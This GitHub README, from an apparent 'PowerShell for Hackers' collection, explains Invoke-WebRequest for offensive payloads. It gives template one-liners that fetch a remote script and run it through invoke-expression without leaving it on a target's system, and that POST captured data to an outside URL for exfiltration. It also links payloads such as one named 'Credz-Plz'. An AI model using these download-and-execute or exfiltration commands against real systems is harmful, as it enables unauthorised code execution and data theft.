 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/Assets/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#The-Function">The Function</a></li>
    <li><a href="#Examples">Examples</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

Appreciate [UberGuidoZ](https://github.com/UberGuidoZ) for contributing to this function.

# Invoke-WebRequest

<p align="center">
      <a href="https://www.youtube.com/watch?v=bPkBzyEnr-w">
        <img src=https://i.ytimg.com/vi/bPkBzyEnr-w/hqdefault.jpg width="300" alt="Python" />
      </a>
      <br>YouTube Tutorial	
</p>

## Description

These functions are used to either download or upload files or data

## The Function

### [IWR-Save] 

This formatting of the IWR function will download a file from a selected URL and save it to the directory of your choosing 

This is helpful if you are trying to save an image or sound file to use in your script

------------------------------------------------------------------------------------------------------------------------------

$env:TMP\   

Use this environment variable to save the file to your Temp directory

$Env:USERPROFILE\Desktop\    

Use this environment variable to save a file to your desktop

```
iwr < Your url for the intended file>?dl=1 -O $Env:USERPROFILE\Desktop\image.jpg
```

### [IWR-Fileless] 

This formatting of the IWR function will download a file and execute it immedietely without saving it to memory

This is helpful if you are trying to download and execute a script without keeping it on the target's system

```
$pl = iwr < Your url for the intended file>?dl=1; invoke-expression $pl
```

### [IWR-Post] 

This formatting of the IWR function will exfiltrate data via a DNS/POST

This is helpful if you are trying to exfiltrate the data you have captured

[Request Catcher](https://requestcatcher.com/)<-------Helpful website to test POST requests

```
iwr -Uri < Your url for posting the intended data> -Method POST -Body "text to upload"
```

<p align="right">(<a href="#top">back to top</a>)</p>


## Examples 

Listed below are payloads that have used one of these functions:

[Acid Burn](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-AcidBurn)

[JumpScare](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-JumpScare)

[WallPaper-Troll](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-Wallpaper-Troll)

[Credz-Plz](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-Credz-Plz)

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<div><h2>I am Jakoby</h2></div>
  <p><br/>
  
  <img src="https://media.giphy.com/media/VgCDAzcKvsR6OM0uWg/giphy.gif" width="50"> 
  
  <a href="https://github.com/I-Am-Jakoby/">
    <img src="https://img.shields.io/badge/GitHub-I--Am--Jakoby-blue">
  </a>
  
  <a href="https://www.instagram.com/i_am_jakoby/">
    <img src="https://img.shields.io/badge/Instagram-i__am__jakoby-red">
  </a>
  
  <a href="https://twitter.com/I_Am_Jakoby/">
    <img src="https://img.shields.io/badge/Twitter-I__Am__Jakoby-blue">
  </a>
  
  <a href="https://www.youtube.com/c/IamJakoby/">
    <img src="https://img.shields.io/badge/YouTube-I_am_Jakoby-red">
  </a>

</p>



<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [UberGuidoZ](https://github.com/UberGuidoZ)

***

[HOME-PAGE](https://github.com/I-Am-Jakoby/PowerShell-for-Hackers)

<p align="right">(<a href="#top">back to top</a>)</p>
